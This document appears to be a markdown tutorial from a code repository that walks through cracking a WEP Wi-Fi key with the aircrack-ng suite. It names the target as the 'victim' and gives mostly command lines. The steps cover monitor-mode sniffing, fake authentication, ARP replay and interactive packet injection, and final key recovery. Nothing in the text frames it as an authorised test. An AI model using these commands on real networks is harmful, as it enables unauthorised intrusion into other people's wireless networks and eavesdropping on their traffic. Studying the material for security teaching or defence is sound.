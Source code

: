 Wireless Equivalent Privacy.
Most WEP keys can be recovered or cracked within 3 minutes.

To crack it, it is needed the following target's information:
- ESSID
- BSSID
- Wireless channel
- Client's MAC

---
Start a **WEP** attack:

- Connect to the victim's machine by ssh
- Identify the available wireless network interfaces:
````
airmon-ng
````
- Locate the target wireless network:
````
airodump-ng monO #mono is the monitor to pick
````
- When airodump locates de target, press Ctrl+C to stop the search
- Copy the MAC address in the BSSID and note the channel
- Open in other terminal airodump-ng to sniff wireless
````
airodump-ng --bssid victim's_mac_address -c channel -w file.txt 

#after bssid you must put the mac address that you obtained before and the -c indicates the channel
````
- Open another terminal without closing the before one and fake an authentication:
````
aireplay-ng -1 0 -a victim's_mac_address -h attacker's_mac_address -e VICTIM'S_ESSID monO --ignore-negative-one

#-1 indicates fake authentication, mono is the monitor to pick
````
- Once we get the fake authentication, we will generate traffic that appears to come from a trusted MAC:
````
aireplay-ng -3 -b victim's_mac_address -h attacker's_mac_address monO --ignore-negative-one

#Here we are making an ARP injection or ARP replay attack
````
- While the ARP continues, open another terminal and write:
````
aireplay-ng -2 -p 0841 -c FF:FF:FF:FF:FF:FF -b victim's_mac_address -h attacker's_mac_address monO --ignore-negative-one

#-2 indicates that we are using the Interactive Replay Attack, -c sets the destination to send the packets to all the hosts on the network
````
- Go back to the sniffing windows
![](./img/sniffing%20window.png)
You must wait until the data field value is above 5000
- Then, stop everything
- Now, in a new terminal execute:
````
aircrack-ng -a 1 -b victim's_mac_address -n 64 web_log-01.cap

#this command is used to crack the web key
````
![](./img/key%20found.png)